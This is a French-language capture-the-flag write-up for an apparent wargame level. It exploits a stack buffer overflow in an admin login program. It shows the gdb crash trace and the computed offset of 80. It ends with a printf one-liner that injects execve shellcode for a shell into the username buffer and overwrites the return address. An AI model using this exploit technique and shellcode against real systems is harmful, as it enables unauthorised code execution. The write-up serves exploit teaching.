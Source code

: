 En utilisant gdb et en donnant en mot de passe jusqu'a 100 'a' on peut voir que le programme essaye d'executer du code a l'address 0x61616161 (qui correspond a un morceau de notre chaine "aaaa").
```
(gdb) run
Starting program: /home/users/level01/level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
nope, incorrect password...


Program received signal SIGSEGV, Segmentation fault.
0x61616161 in ?? ()
(gdb) bt
#0  0x61616161 in ?? ()
#1  0x0000000a in ?? ()
#2  0xffffd7b4 in ?? ()
Backtrace stopped: previous frame inner to this frame (corrupt stack?)
```
On en deduit que le registre RIP est a un moment charge par une valeur qu'on ecrase par ce qu'on ecrit. On aimerait controller precisement quelle valeur on va mettre dans RIP pour executer le code qu'on veut.

## Calculer l'offset
On peut utiliser un outil pour calculer cet offset: https://wiremask.eu/tools/buffer-overflow-pattern-generator/

Offset: 80

## Le code
Il nous faut un buffer dans lequel mettre le code qu'on veut executer. Le buffer du nom d'utilisateur peut faire l'affaire. Son adresse est 0x0804a040 d'apres objdump -x, on rajoute 7 pour prendre en compte "dat_wil"

`dat_wil + le code`

`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac + \x47\xa0\x04\x08\x00\x00\x00\x00`

Le code en question est sous forme d'instructions directement comprehensible par le CPU. Le site shell-storm repertorie differents code machines qui pourraient nous interesser, pour executer la fonction execve avec comme argument "/bin/bash":
`\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05`

## Final
`printf "dat_wil\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x00\x50\x54\x5f\x31\xc0\x50\xb0\x3b\x54\x5a\x54\x5e\x0f\x05\n%80c\x47\xa0\x04\x08\x00\x00\x00\x00\n" A`
